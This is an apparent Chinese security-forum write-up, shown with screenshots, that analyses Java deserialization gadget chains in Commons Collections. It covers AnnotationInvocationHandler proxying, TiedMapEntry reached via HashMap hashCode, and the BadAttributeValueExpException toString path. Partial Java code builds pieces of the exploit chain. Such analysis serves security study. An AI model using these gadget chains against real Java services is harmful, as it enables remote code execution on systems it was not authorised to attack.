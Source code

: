 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-2e9a2323c0ac4f71ea1289099089626cc5916a0d.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e8d58d139d04f780401f090d986e125db3480171.png)

```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
```

### TiedMapEntry.getValue

在 TiedMapEntry 的 getValue 方法中也存在对任意 map 的 get 方法的调用

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1d1e6b26b502a1783aa34f535e31551f2c01dd82.png)

#### hash 调用链

getValue 方法我们可以通过 hash 调用链到达，通过 HashMap 的 hash 函数得到任意的 hashCode 方法的调用，这里的 k 就是我们传入的 key，我们通过 put 传入，进入到 TiedMapEntry 的 hashCode 后我们就可以调用到 getValue 方法了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-2c7f21d30eef2c413238ae8a35001117ef2f3179.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f7c2729675330d6fe06bd97a9ffec4830500f4b0.png)

```java
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "123");

        Map expMap = new HashMap();
        expMap.put(tme, "whaomi");

        outerMap.remove("123");
```

#### toString 调用链

在 TiedMapEntry 的 toString 方法中也存在自身 getValue 方法的调用

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a11c51ef23abb890cdefaae81bc7f89e720c378c.png)

BadAttributeValueExpException 的 readObject 方法中存在对可控类的 toString 方法的调用

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e62dc67550c526118340944c965b279d20bd79cf.png)
